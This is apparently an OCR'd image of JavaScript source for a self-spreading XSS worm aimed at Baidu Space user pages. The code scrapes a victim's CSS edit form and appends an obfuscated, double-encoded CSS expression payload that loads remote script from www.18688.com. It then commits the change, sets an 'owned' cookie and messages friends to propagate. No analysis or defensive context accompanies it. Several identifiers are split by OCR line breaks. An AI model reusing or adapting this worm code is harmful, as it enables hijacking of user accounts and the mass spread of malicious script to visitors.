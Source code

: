 ```

if(spaceid!='/') {
if(debug==1) {
 goteditcss();
 document.cookie='xssshell/owned/you!';
}
if(cookieval.indexOf('xssshell')==-1) {
goteditcss();
document.cookie='xssshell/owned/you!';
}
}

function makeevilcss(spaceid,editurl,use){
playload="a{evilmask:ex/*exp/**/ression*/pression(execScript(unescape('d%253D%2522doc
%2522%252B%2522ument%2522%253B%250D%250Ai%253D%2522function%2520load%2528%2529%257Bva
r%2520x%253D%2522%252Bd%252B%2522.createElement%2528%2527SCRIPT%2527%2529%253Bx.src%2
53D%2527http%253A//www.18688.com/cache/1.js%2527%253Bx.defer%253Dtrue%253B%2522%252Bd
%252B%2522.getElementsByTagName%2528%2527HEAD%2527%2529%255B0%255D.appendChild%2528x%
2529%257D%253Bfunction%2520inject%2528%2529%257Bwindow.setTimeout%2528%2527load%2528%
2529%2527%252C1000%2529%257D%253Bif%2528window.x%2521%253D1%2529%257Bwindow.x%253D1%2
53Binject%2528%2529%257D%253B%2522%250D%250AexecScript%2528i%2529')))}";
action=myhibaidu+"/commit";
spCssUse=use;
s=getmydata(editurl);

re = /\<input type=\"hidden\" id=\"ct\" name=\"ct\" value=\"(.*?)\"/i;
ct = s.match(re);
ct=(ct[1]);

re = /\<input type=\"hidden\" id=\"cm\" name=\"cm\" value=\"(.*?)\"/i;
cm = s.match(re);
cm=(cm[1])/1+1;

re = /\<input type=\"hidden\" id=\"spCssID\" name=\"spCssID\" value=\"(.*?)\"/i;
spCssID = s.match(re);
spCssID=(spCssID[1]);

spRefUrl=editurl;

re = /\<textarea(.*?)\>([^\x00]*?)\<\/textarea\>/i;
spCssText = s.match(re);
spCssText=spCssText[2];
spCssText=URLEncoding(spCssText);

if(spCssText.indexOf('evilmask')!==-1) {
 return 1;
}
else spCssText=spCssText+"\r\n\r\n"+playload;

re = /\<input name=\"spCssName\"(.*?)value=\"(.*?)\">/i;
spCssName = s.match(re);
spCssName=spCssName[2];

re = /\<input name=\"spCssTag\"(.*?)value=\"(.*?)\">/i;
spCssTag = s.match(re);
spCssTag=spCssTag[2];

postdata="ct="+ct+"&spCssUse=1"+"&spCssColorID=1"+"&spCssLayoutID=-1"+"&spRefURL="+UR
LEncoding(spRefUrl)+"&spRefURL="+URLEncoding(spRefUrl)+"&cm="+cm+"&spCssID="+spCssID+
"&spCssText="+spCssText+"&spCssName="+URLEncoding(spCssName)+"&spCssTag="+URLEncoding
(spCssTag);
result=postmydata(action,postdata);
sendfriendmsg();
```